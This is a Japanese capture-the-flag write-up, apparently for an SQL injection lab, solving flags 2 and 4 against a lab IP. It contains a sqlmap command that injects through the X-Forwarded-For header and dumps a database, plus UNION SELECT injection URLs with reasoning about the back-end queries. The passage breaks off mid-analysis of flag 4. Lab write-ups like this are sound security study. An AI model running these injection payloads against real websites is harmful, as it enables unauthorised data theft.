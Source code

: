 何を言っているのか全然わからなかったが、「X-Forwarded-For」ヘッダーを参照しているというヒントらしい。  
言われてみれば納得。下記コマンドでフラグ２が出てくる。

```shell
$ sqlmap –dbms mysql --headers="X-forwarded-for:1*" -u http://10.10.76.124 -D sqhell_1 --dump --batch
```

しかし正直、フラグ２が sqhell_1 に入っていた点については、そりゃねーよと思った。

### フラグ４

http://10.10.76.124/user?id=1 を表示したとき、下記が表示される。

```
User ID:  1
Username:  admin
Posts:
    First Post
    Second Post
```

http://10.10.76.124/user?id=10%20union%20select%201,2,3%20from%20users--%20- の結果が下記。  
username は users テーブルから、Posts のタイトルは posts テーブルから取っていると思われる。  
重要なのは、posts テーブルの where 条件として、users テーブルから返ってきた id を使っていると考えられる点。

```
User ID:  1
Username:  2
Posts:
    First Post
    Second Post
```

その証拠に、http://10.10.76.124/user?id=10%20union%20select%202,2,3%20from%20users--%20- とすると、Posts が空になる。

```
User ID:  2
Username:  2
Posts:
```

疑似コードで表現すると下記のイメージ。

```sql
id_user,username = (select id, username from users where id = <userinput>)

name_post = (select name from posts where id = id_user)

print(id_user, username, name_post)
```

http://10.10.76.124/user?id=10%20union%20select%202,flag,3%20from%20flag--%20-  
でフラグが返ってきても良さそうだと思うが、「Cannot find user」が返る。

http://10.10.76.124/user?id=10%20union%20select%202,2,3%20from%20posts--%20-  
でも「Cannot find user」が返る。  
おそらく、1 個目の users テーブルのクエリと 2 個目の posts テーブルのクエリでは、異なる DB に接続している。
